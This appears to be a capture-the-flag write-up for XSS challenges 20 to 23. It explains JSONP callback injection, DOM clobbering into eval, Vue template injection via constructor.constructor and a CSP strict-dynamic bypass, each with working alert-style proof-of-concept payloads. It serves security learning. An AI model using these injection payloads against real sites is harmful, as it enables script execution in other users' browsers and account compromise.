 # 20
- JSONP
    - JSONP was invented to overcome SOP and to perform cross-domain communication.
    - AJAX to other domains are not allowed due to SOP.
    - However there is one exception; when scripts are read from src.
        - <script src="can-be-other-domain.hoge"></script>
    - Servers that allow JSONP create and return javascript file that calls the callback function specified by the caller with the requested value from the user
        - NG: <script>axios.get("api.example.com/user-name")</script>
            - The user wants to know the username.
            - Blocked by the SOP (without CORS).
        - OK: <script src="example.com/user-name-jsonp.php?callback=setUserName></script>
            - This will return a javascript like `setUserName("myusername")`.
            - The requested value (username) is passed to the user script by calling the callback.

    - [What is JSONP?](https://stackoverflow.com/questions/2067472/what-is-jsonp-and-why-was-it-created)
    - [JSONP injection](https://securitycafe.ro/2017/01/18/practical-jsonp-injection/)

## Answer
- Exploit the vulnerability that `jsonp.php` in this problem directly injects the callback parameter into the response.
- By sending script that we want to execute as the callback parameter arbitrary script execution is possible
- Dont forget to comment out the original script
    - or it will cause syntax error

- `<script src="jsonp.php?callback=alert('XSS'); //"></script>`
- `<script src="jsonp.php?callback=alert(document.domain); //></script>


# 21
- DOM elements' IDs are global variables
    - div tag below can be accessed from window.a

```
  <div id="a">Hello!</div>
  <script>console.log(a);//<div id="a">Hello!</div></script>
```  

- So the input value of ```<input type="hidden" id="equation" value="<?= $eq ?>"``` is accessable via window.equation.value

- Use DOM clobbering (?) to inject malicious payload to eval function
    - [DOM Clobbering まとめ](https://diary.shift-js.info/dom-clobbering/)

- ```<input type="hidden" id="equation" value="alert('XSS')" > <!--```
- ```<input type="hidden" id="equation" value="alert(document.domain)" > <!--```

- Don't forget to comment out the rest of the HTML to prevent same id
    - More than same IDs will cause undefined action
    - In this case if there are two <input type"hidden" id="equation... window.equation.value will become undefined


# 22
- There is a vue template injection vulnerability.
- However since in vue, variables that look like global variables will refer to vue instance data.
    - `{{alert(1)}}` will cause an error as undefined function.

- In JS `Function` with a capital letter is a constructor that can create function dynamically.
    - [Figure of JS Object layout](https://stackoverflow.com/questions/5963547/object-constructor-object-constructor-constructor-why)
    - We will use `Function` to create alert function dynamically.
- `[] instanceof Object === true`
- `[].constructor instanceof Function === true`
- `([].constructor.constructor === Function) === true`
- So using `[].constructor.constructor` we can create function dynamically.

- ```{{constructor.constructor("alert('XSS')")()}}```
- ```{{constructor.constructor("alert(document.domain)")()}}```

# 23
- The point is that there is `script-src 'strict-dynamic'` in the CSP.
- Usually with CSP inline scripts are disabled without a nonce.
- `strict-dynamic` will permit inline scripts without nonces, when the inline script is generated by a script with a nonce.  
```
<script nonce="random123">
se=document.createElement("script")
se.innerHTML = "alert(1)"
</script>
```
    - [nonce + strict-dynamic](https://inside.pixiv.blog/kobo/5137)

- ```alert("XSS")//<script id="injectarea"></script><!--```
- ```alert(document.domain)//<script id="injectarea"></script><!--```

# References
- http://akouryy.hatenablog.jp/entry/ctf/xss.shift-js.info
- https://graneed.hatenablog.com/entry/2018/11/23/222842
